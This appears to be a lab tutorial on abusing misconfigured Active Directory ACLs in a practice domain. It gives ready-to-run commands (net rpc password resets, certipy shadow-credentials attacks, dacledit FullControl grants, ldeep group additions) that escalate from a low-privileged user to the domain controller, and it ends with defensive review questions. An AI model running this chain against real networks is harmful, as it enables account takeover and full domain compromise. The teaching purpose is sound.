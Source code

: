 #ACLs

WAD uses ACLs in what are called object's Security Descriptors in order to define object access. These ACLs hold information on which Security Principals have what type of access to the object in question. ACLs can be exploited by attackers. For example, imagine that the attacker compromises an account A, and this account A holds determined access rights to an object B. This way, if access rights are powerful enough, the attacker may also compromise object B using account A. This is the basic principle of ACL attacks. Now, let's get to concrete examples.

We've previously gathered information and uploaded it to BloodHound on the BloodHound section. Let's query our information for ACL paths, to get a better look at what can be done. Use the following Cypher query:
```
MATCH p=(u)-[r1]->(n)
WHERE r1.isacl = true
  AND u.admincount = false
  AND NOT toLower(u.name) CONTAINS 'key'
  AND toLower(u.domain) = "north.altair.local"
  AND NOT toLower(u.name) CONTAINS 'ras and ias servers'
  AND NOT toLower(n.name) CONTAINS 'ras and ias servers'
  AND NOT toLower(u.name) CONTAINS 'samaccountname'
  AND NOT toLower(n.name) CONTAINS 'samaccountname'
RETURN p
```

This shows us different nodes and links. These nodes are our Security Principals, and the links between them represent different access rights, defined by ACLs. Through the BloodHound GUI we can determine that there's a path from the Skyler White user, all the way to the CAPTAIN machine!
First, we notice that Skyler has a 'ForceChangePassword' link to Jesse. This indicates that Skyler can change Jesse's password! Since we've compromised Skyler's account earlier, we can now compromise Jesse's by changing it's current password:
```
net rpc password jesse.pinkman -U north.altair.local/skyler.white%Password123 -S captain.north.altair.local
#introduce the password, for example ThisIsANewPassword10
#now confirm if the password was correctly altered
crackmapexec smb 192.168.122.10 -u jesse.pinkman -d north.altair.local -p ThisIsANewPassword10
```
From jesse’s account, we can compromise walter.white’s account, since jesse holds the 'GenericWrite' access right over it. This means that Jesse can alter Walter's attributes. This allows for the Shadow Credentials attack, seen in our ADCS section. We can therefore  retrieve Walter's hashes and a TGT in his name through this attack, as Jesse.
```
certipy shadow auto -u jesse.pinkman@north.altair.local -p ThisIsANewPassword10 -account 'walter.white'
```

And we've compromised Walter's account! Let's see what we can do from here. It seems Walter has the ability of modifying Hank's own ACL! This means the attacker, as Walter, can give theirself other types of access to Hank, such as 'FullControl' access! Then, we can perform the Shadow Credentials attack once more, as 'FullControl' access gives Walter (yes, you've guessed it) full control over Hank's user account! One can also change Hank's password as we've done before. I'll let you decide this one for yourself.

```
#we can check walter's current rights on hank, please use set the KRB5CCNAME env var to the .ccache file retrieved in the last step
dacledit.py -no-pass -hashes :<NT hash from previous attack> -action 'read' -principal walter.white -target 'hank.schrader' 'north.altair.local'/'walter.white'
#add FullControl right to walter
dacledit.py -no-pass -hashes :<NT hash from previous attack> -action 'write' -rights 'FullControl' -principal walter.white  -target 'hank.schrader' 'north.altair.local'/'walter.white'
#we can check walter's new access rights on hank's account
dacledit.py -no-pass -hashes :<NT hash from previous attack> -action 'read' -principal walter.white -target 'hank.schrader' 'north.altair.local'/'walter.white'
#you can use the shadow credentials attack once again, this time using walter's account and targeting hank's
certipy shadow auto -u walter.white@north.altair.local -hashes :<NT hash from previous attack> -account 'hank.schrader'
```

Once you've compromised Hank's account, you can use it to add members to the 'Masters' security group! It seems that this group has 'GenericAll' access rights over the DC!

```
# Add skyler.white to the Masters group
ldeep ldap -u hank.schrader -H ':<NT hash from previous attack>' -d north.altair.local -s ldap://192.168.122.10 add_to_group "CN=Skyler White,CN=Users,DC=north,DC=altair,DC=local" "CN=Masters,CN=Users,DC=north,DC=altair,DC=local"

#Confirm that skyler is now part of the masters group
ldeep ldap -u hank.schrader -H ':<NT hash from previous attack>' -d north.altair.local -s ldap://192.168.122.10 membersof 'Masters'
```
Now, all thanks to misconfigured ACLs with over-permissive access rights granted to low-privileged accounts,  the attacker can compromise the domain:
```
certipy shadow auto -u skyler.white@north.altair.local -p 'Password123' -account 'captain$'
#now you can use the secretsdump.py script with either the hashes or the TGT received from the shadow credentials attack
```

!!! question
    How could these permissions have been configured more securely to prevent privilege escalation through ACLs?
??? success "Answer"
    Permissions should follow the principle of least privilege. Only the minimum rights necessary should be granted. For example, avoiding giving low-privileged accounts rights like ForceChangePassword, GenericWrite, or GenericAll over higher-privileged accounts.
!!! question
    What would be the real impact on the organization if an attacker exploited this ACL chain up to the Domain Controller?
??? success "Answer"
    Full compromise of the DC effectively gives the attacker control over the entire Active Directory domain. This means the ability to impersonate any user, maintain persistent access, and more. Essentially, this is game over for the organization’s AD domain.
!!! question
    Is the BloodHound tool only helpful for attackers in this scenario?
??? success "Answer"
    No. BloodHound is valuable for both attackers and defenders. While attackers can use it to map privilege escalation paths and exploit misconfigurations, defenders can leverage it to audit AD environments, identify excessive permissions, and remediate risky ACLs before they are abused. When integrated into security audits, BloodHound becomes a powerful defensive tool.




